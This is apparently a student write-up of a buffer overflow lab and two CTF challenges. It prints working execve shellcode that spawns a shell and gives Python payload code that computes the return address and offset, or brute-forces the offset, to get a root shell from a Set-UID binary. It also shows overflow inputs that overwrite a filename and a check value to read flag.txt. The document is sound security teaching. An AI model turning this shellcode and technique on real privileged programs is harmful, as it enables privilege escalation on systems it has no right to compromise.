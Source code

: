 # Buffer Overflow Attack Lab (Set-UID Version)

## Task 1: Getting Familiar with Shellcode

Compliling and running the resulting binaries:

![shellcode](shellcode.png)

We observe that we were able to run both versions of the shellcode and
successfully spawn a shell.

## Task 2: Understanding the Vulnerable Program

Compiling the vulnerable program, making sure to disable StackGuard and
non-executable stack protections:

![stack1](stack1.png)

## Task 3: Launching Attack on 32-bit Program (Level 1)

### Task 3 - Investigation

Using gdb to find the address for ebp and the buffer:

![stackl11](stackl11.png)

### Task 3 - Attacking

For our shellcode we will be using the 32-bit version, since the vulnerable
binary is also 32-bit:

```python
shellcode= (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')
```

And putting it as far back as possible in our payload, since before the shellcode
starts, all instructions will be filled with NOPs:

```python
start = 517 - len(shellcode)
```

As for the return address, we use the address we previously found for ebp, and
add 0x100 to account for the space for function arguments and the extra stuff
that gdb might add. It is safer to choose a high number since we don't have to
be too precise in this case, because the NOP sled is very big.

```python
ret = 0xffffcad8 + 0x100
```

Lastly, the offset will be the difference between the ebp and the buffer
adresses, plus 4, since we want to write in the address that comes after ebp.
This value comes out to be equal to 112.

```python
offset = 0xffffcad8 - 0xffffca6c + 4
```

Now let's test it!

![stackl12](stackl12.png)

Success! We get a root shell.

## Task 4: Launching Attack without Knowing Buffer Size (Level 2)

### Task 4 - Investigation

This time, we are not allowed to determine the buffer size with gdb, so we will
only gather information about the ebp address:

![stackl21](stackl21.png)

### Task 4 - Attacking

Our shellcode will remain the same, since the binary is still 32-bit.
Just need to update the return address to be in line with the newly found ebp
address:

```python
ret = 0xffffcb18 + 0x100
```

However, since we only know that our buffer size is between 100 and 200, we
will just use as the offset all the address between 112 (offset when the buffer
is 100, as we saw in last task) and 212 (112 + 100):

```python
L = 4
for offset in range(112, 212, L):
    content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
```

And once again, we get a root shell:

![stackl22](stackl22.png)

## CTF

### Challenge 1

After analyzing the main.c file, we figure out that it prints out the contents
in file whose name is in the *meme_file* array.
We also find out a very obvious buffer overflow, since the size of the buffer
is 20 and the *scanf* function reads 28 chars from stdin. Conveniently, the
size of *meme_file* is 8, so we can write 20 chars that are stored in the
buffer, and use the other 8 to completely overwrite the name of the file that
will be opened.

```c
char meme_file[8] = "mem.txt\0";
char buffer[20];
(...)
scanf("%28s", &buffer);
```

So, for the exploit, we will write 20 random chars, followed by the name of the
file we want to read: flag.txt.

```python
r.sendline(b"01234567890123456789flag.txt")
```

And sure enough, we get the flag:

![flag1](flag1.png)

### Challenge 2

This second challenge is very similar to the first one, but this time there is
another buffer between the *buffer* and the *meme_file* called *val*. This
*val* is then checked to see if it is equal to 0xfefc2223, and only if this
condition is true, is the file printed. We also conclude that we can completely
overwrite the file name once again, since *scanf* reads 32 chars.

```c
char meme_file[8] = "mem.txt\0";
char val[4] = "\xef\xbe\xad\xde";
char buffer[20];
(...)
scanf("%32s", &buffer);
```

So, to mitigate this, we will write again 20 random chars, then 0xfefc2223 (in
little endian) and the file we want to read: flag.txt.

```python
r.sendline(b"01234567890123456789\x23\x22\xfc\xfeflag.txt")
```

And once again, we manage to obtain the flag:

![flag2](flag2.png)
